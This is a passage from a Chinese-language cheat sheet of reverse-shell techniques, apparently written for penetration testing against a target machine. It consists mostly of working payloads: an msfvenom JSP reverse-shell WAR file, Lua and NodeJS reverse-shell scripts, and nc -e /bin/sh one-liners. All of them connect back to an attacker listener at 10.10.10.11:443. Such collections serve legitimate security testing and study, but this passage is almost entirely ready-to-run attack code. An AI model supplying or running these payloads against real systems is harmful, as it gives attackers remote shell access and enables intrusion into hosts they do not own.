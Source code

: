 ```bash
nc -lvp 443
```
使用如下命令生成war文件：
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.11 LPORT=443 -f war > reverse.war
```
查看war包中shell的jsp文件名
```bash
strings reverse.war | grep jsp
```
在靶机上部署war包后，访问shell的jsp文件，即可在监听端口获得反弹shell

## 17、使用Lua脚本反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
Linux平台：
```bash
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.10.10.11','443');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```
Windows及Linux平台：
```bash
lua5.1 -e 'local host, port = "10.10.10.11", 443 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
## 18、NodeJS版本反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.10.11", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; 
})();
```
```js
require('child_process').exec('nc -e /bin/sh 10.10.10.11 443')
```
```js
-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.10.10.11 443 -e /bin/bash')
```
```bash
https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py
```
